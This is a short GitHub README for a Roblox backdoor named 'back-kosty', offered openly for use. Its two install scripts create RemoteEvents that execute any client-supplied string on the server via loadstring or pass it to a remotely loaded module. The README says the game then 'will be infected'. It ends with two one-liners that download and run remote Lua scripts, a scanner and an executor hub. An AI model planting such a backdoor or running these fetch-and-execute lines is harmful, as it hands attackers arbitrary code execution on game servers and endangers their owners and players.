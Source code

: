 # back-kosty
repository of my backdoor for test also this so epic :D
# how to install?
create in serverscriptservice the 2 scripts
# stape number 1
local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "back-kosty"
backdoor.OnServerEvent:connect(function(player, SS)
	loadstring(SS)()
end)

# stape 2

local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "polaria"

backdoor.OnServerEvent:Connect(function(player, SS)
	local module = require(123255432303221)
	if type(SS) == "string" then
		module:Pload(SS)
	else
		warn("polaria failed")
	end
end)

# after that your game will be infected by back-kosty
# loadstring 1 (SERVERSIDE)
loadstring(game:HttpGet("(https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/scanner.lua)")()
# loadstring 2 (LOCAL)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/executor/executorandhub.lua", true))()
